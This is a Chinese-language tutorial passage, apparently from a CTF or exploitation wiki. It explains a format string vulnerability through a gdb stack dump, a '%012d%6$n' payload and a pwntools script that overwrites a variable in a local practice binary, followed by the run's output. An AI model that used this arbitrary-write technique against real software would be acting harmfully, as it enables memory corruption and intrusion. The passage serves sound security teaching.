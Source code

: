 ```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"	 ← $eax
```

我们可以发现在0xffffcd14处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

#### 进行覆盖

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

```text
[addr of c]%012d%6$n
```

addr of c 的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。

具体脚本如下

```python
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 74806
0xfffd8cdc
܌��%012d%6$n
܌��-00000160648modified c.
```
